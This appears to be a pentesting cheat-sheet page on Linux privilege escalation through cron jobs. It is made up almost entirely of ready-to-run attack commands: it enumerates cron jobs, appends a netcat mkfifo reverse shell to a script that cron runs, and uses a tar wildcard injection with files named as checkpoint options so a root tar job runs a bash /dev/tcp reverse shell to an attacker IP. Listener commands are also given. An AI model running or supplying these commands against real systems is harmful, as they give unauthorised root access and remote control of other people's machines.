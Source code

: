 # Cron jobs

_<mark style="background-color:purple;">**Enumerate cron jobs**</mark>_

```sh
ls -lah /etc/cron*
sudo crontab -l
grep "CRON" /var/log/syslog
cat /etc/cron.d/*
```

_<mark style="background-color:purple;">**add a reverse shell to cronjob**</mark>_

```powershell
echo >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip} 1234 >/tmp/f" >> user_backups.sh
```

`nc -lvnp 1234`&#x20;



### Cron jobs with tar wildcards:

* e.g `CRON[185223]: (root) CMD (cd /opt/admin && tar -zxf /tmp/backup.tar.gz *)`

Create 2 special files for tar:

```sh
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh
```

Create shell.sh:

{% code overflow="wrap" %}
```sh
echo "bash -i >& /dev/tcp/192.168.45.214/1111 0>&1" > shell.sh

chmod +x shell.sh
```
{% endcode %}

Set up listener on kali:

`nc -lvnp 1111`

